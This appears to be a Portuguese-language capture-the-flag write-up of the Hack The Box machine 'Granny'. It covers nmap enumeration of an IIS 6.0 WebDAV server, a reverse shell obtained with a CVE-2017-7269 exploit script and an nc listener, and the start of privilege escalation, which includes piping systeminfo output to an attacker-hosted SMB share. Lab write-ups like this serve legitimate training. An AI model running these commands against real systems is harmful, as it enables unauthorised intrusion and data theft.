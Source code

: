 ```yaml
---
title:     "Hack The Box -Granny"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/1.jpg)

## Enumeration

Iniciamos nossa maquina usando o nmap para enumeracao inicial

```
root@kali:~/HTB-Windows/granny# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 13:39 EDT
Stats: 0:07:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.87% done; ETC: 13:47 (0:00:01 remaining)
Nmap scan report for 10.10.10.15
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 446.75 seconds
```

wowww apenas uma porta aberta ,,,,, 


```
root@kali:~/HTB-Windows/granny# nmap -sC -sV -p80 -oN nmap/scripts_default 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 13:49 EDT
Nmap scan report for 10.10.10.15
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Wed, 24 Jun 2020 17:52:36 GMT
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.30 seconds
```

A versao do webserver **(Microsoft IIS httpd 6.0)** eh bem antiga, alem disso no webdav temos diversos metodos habilitados **(|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK)**

Vamos continuar nossa enumeracao... Existe projeto bem interessante que desenvolveu um script bem interessante para buscar vulns usando o proprio nmap

**reference** https://medium.com/@alexander.tyutin/continuous-vulnerability-scanning-with-nmap-ea8821d587b0


```
root@kali:~/HTB-Windows/granny# git clone https://github.com/vulnersCom/nmap-vulners /usr/share/nmap/scripts/vulners
Cloning into '/usr/share/nmap/scripts/vulners'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 68 (delta 1), reused 0 (delta 0), pack-reused 62
Unpacking objects: 100% (68/68), 427.88 KiB | 550.00 KiB/s, done.
root@kali:~/HTB-Windows/granny# nmap --script-updatedb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 13:56 EDT
NSE: Updating rule database.
NSE: Script Database updated successfully.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.67 seconds
```

Usando e verificando os resultados obtidos

```
root@kali:~/HTB-Windows/granny# nmap -sV -Pn 10.10.10.15 --script=vulners/vulners.nse -p 80
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 14:01 EDT
Nmap scan report for 10.10.10.15
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| vulners: 
|   cpe:/a:microsoft:iis:6.0: 
|_      IIS_PHP_AUTH_BYPASS.NASL        7.5     https://vulners.com/nessus/IIS_PHP_AUTH_BYPASS.NASL
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.96 seconds
```

Bom, eu particulamente nao achei muito eficiente pra essa maquina.. Mas isso eh normal acontecer.. O recomendado eh voce testar nao so os scripts conhecidos mais outros tambem....

Continuando...

## Find Exploits

Pesquisando por exploit conhecidos no google, encontra rapidamente algumas exploracoes...

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/3.jpg)


## Reverse Shell

Rapidamente conseguimos obter nossa reverse shell

`python iis6CVE-2017-7269.py 10.10.10.15 80 10.10.14.36 53`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/2.jpg)

## Privilege Escalation

Usando a velha estrategia e funcional ja encontramos alguns vetores

```
root@kali:~/HTB-Windows/granny# rlwrap nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

c:\windows\system32\inetsrv>
```

Precisamos obter mais informacoes basicas como qual sistema, qual arquitetura, qual versao essas informacoes sao essenciais para continuar com a escalacao de privilegios

`impacket-smbserver tools .`
`systeminfo >> \\10.10.14.36\tools\systeminfo.txt`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/4.jpg)



